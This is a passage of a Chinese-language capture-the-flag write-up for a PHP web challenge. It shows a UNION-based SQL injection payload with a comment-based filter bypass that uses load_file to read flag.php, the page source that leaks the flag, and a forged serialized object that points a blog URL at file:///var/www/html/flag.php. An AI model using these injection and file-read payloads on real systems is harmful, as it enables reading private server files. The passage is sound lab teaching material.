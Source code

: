 -1 union/*!select */1,load_file("/var/www/html/flag.php"),3,4

**username没有返回内容，但是页面产生了响应，说明username所显示的内容，不符合该字段所能显示的内容的格式，可以通过查看网页源代码，查看本来应该在该字段中显示的内容：**

```html
    <table class="table">
        <tr>
            <th>
                username
            </th>
            <th>
                age
            </th>
            <th>
                blog
            </th>
        </tr>
        <tr>
            <td>
                <?php

$flag = "flag{ab61868d-16df-4976-93c7-8980c7fbc7be}";
exit(0);
            </td>
            <td>
                <br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/view.php</b> on line <b>53</b><br />
            </td>
            <td>
                <br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/view.php</b> on line <b>56</b><br />
            </td>
        </tr>
    </table>
```

所以flag为:

flag{ab61868d-16df-4976-93c7-8980c7fbc7be}

16.如果网站过滤了load_file("路径"):

第四个字段data所显示的位置为:the contents of his/her blog

该字段为将存储于数据库中的如O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:13;s:4:"blog";s:7:"bai.com";} 的内容取出，然后根据该data中blog的地址，访问出blog的内容，所以我们可以让它显示/var/www/html/flag.php的内容

假设它网页是对这个序列化的内容base-64加密然后访问，则我们也只需要让它访问序列化的data：

O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:13;s:4:"blog";s:29:"file:///var/www/html/flag.php";}

payload:
